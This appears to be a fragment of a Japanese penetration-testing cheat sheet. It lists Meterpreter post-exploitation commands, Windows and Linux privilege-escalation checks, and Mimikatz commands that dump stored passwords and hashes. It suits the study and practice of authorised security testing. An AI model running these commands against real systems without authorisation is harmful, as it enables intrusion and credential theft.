 ```bash

# Meterpreter
meterpreter> sysinfo
meterpreter> getuid
meterpreter> ps
meterpreter> migrate 1234
meterpreter> hashdump
meterpreter> screenshot
meterpreter> download c:\\file.txt
meterpreter> upload tool.exe c:\\
meterpreter> shell
```

### 権限昇格

**Windows:**

```powershell
# 脆弱なサービス検索
Get-WmiObject win32_service | Where-Object {$_.PathName -notmatch '"'}

# AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Token Impersonation
# ポテトExploit（JuicyPotato、RoguePotato等）

# Mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # lsadump::sam
```

**Linux:**

```bash
# SUID検索
find / -perm -4000 -type f 2>/dev/null

# Sudoers
sudo -l

# Kernel Exploit
uname -a
searchsploit "Linux Kernel 4.4"

# Cron Jobs
cat /etc/crontab
ls -la /etc/cron.d/

# Capabilities
getcap -r / 2>/dev/null
```
